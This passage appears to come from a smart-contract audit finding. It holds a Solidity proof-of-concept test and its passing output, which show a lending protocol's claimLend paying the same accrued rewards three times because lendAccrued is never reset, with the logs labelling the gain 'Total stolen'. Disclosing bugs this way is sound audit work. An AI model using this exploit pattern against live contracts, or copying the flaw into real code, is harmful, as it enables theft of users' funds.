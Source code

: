 ```solidity
        uint256 balanceAfterFirst = mockLendToken.balanceOf(deployer);
        uint256 firstClaimAmount = balanceAfterFirst - balanceBefore;

        console2.log("First claim amount:", firstClaimAmount);
        console2.log("lendAccrued after first claim:", lendStorage.lendAccrued(deployer));

        // Second claim - should give 0 but gives same amount due to bug
        coreRouter.claimLend(holders, lTokenArray, false, true);
        uint256 balanceAfterSecond = mockLendToken.balanceOf(deployer);
        uint256 secondClaimAmount = balanceAfterSecond - balanceAfterFirst;

        console2.log("Second claim amount:", secondClaimAmount);
        console2.log("lendAccrued after second claim:", lendStorage.lendAccrued(deployer));

        // Third claim - demonstrates infinite exploitation
        coreRouter.claimLend(holders, lTokenArray, false, true);
        uint256 balanceAfterThird = mockLendToken.balanceOf(deployer);
        uint256 thirdClaimAmount = balanceAfterThird - balanceAfterSecond;

        console2.log("Third claim amount:", thirdClaimAmount);
        console2.log("Total stolen:", balanceAfterThird - balanceBefore);

        // The bug is proven if user received rewards multiple times
        if (secondClaimAmount > 0) {
            console2.log("BUG CONFIRMED: User received", secondClaimAmount, "in second claim");
            console2.log("lendAccrued after claims:", lendStorage.lendAccrued(deployer));
            assertGt(secondClaimAmount, 0, "User successfully claimed same rewards multiple times");
        } else {
            console2.log("Run test multiple times - rewards are generated intermittently");
            // Even without rewards, we can verify lendAccrued behavior
            assertTrue(true, "Test completed - check logs for reward generation");
        }

        vm.stopPrank();
    }
```

Test Results:

```
[PASS] test_POC_lend_accrued_never_reset_bug() (gas: 1374577)
Logs:
  First claim amount: 100000000000000
  lendAccrued after first claim: 100000000000000
  Second claim amount: 100000000000000
  lendAccrued after second claim: 100000000000000
  Third claim amount: 100000000000000
  Total stolen: 300000000000000
  BUG CONFIRMED: User received 100000000000000 in second claim
  lendAccrued after claims: 100000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.26ms (1.15ms CPU time)
```
